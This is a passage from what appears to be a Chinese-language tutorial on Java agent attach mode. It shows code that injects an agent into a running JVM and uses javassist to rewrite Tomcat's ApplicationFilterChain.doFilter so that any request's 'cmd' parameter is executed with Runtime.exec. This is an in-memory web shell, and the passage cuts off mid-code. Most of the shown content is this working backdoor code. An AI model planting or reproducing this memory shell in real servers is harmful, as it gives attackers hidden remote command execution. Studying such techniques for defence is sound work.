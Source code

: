 

```
java -javaagent:target/javaagent.jar -classpath target/test-classes/ App
```

即可在执行test方法前执行我们的代码



不过在真实环境中我们需要代理的程序往往都已经启动了,这时候我们的Agant模式就不行了,这时候就需要用到我们的Attach模式。Attach模式需要知道我们运行的Java程序进程ID，通过Java虚拟机的进程注入方式实现可以将我们的Agent程序动态的注入到一个已在运行中的Java程序中。

代理类:

```java
import java.lang.instrument.Instrumentation;

public class AgentMain {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```

```JAVA
import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {

    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore(
                    	"javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
```